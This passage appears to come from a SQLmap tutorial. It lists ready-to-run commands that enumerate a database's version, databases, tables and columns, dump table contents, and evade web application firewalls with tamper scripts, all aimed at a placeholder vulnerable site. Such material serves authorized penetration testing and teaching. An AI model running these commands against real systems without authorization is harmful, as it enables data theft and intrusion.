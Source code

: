 ### Database Enumeration and Extraction

Once a vulnerability is found, SQLmap can extract valuable information:

#### Database Version

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --banner
```

#### List Databases

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --dbs
```

#### List Tables in a Database

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" -D database_name --tables
```

#### List Columns in a Table

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" -D database_name -T table_name --columns
```

#### Dump Table Contents

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" -D database_name -T table_name -C column1,column2 --dump
```

### Advanced Techniques

#### Bypassing WAF/IPS

Web Application Firewalls (WAFs) and Intrusion Prevention Systems (IPS) often try to block SQL injection attempts. SQLmap includes various evasion techniques:

```bash
# Use tamper scripts to modify the payload
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --tamper=space2comment,between

# Try alternative techniques with custom delimiters
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --technique=BT --time-sec=10 --hex --no-cast
```

#### Automating Multi-Parameter Testing

To test all parameters in a URL automatically:

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1&cat=2&user=3" --batch --level=5 --risk=3
```
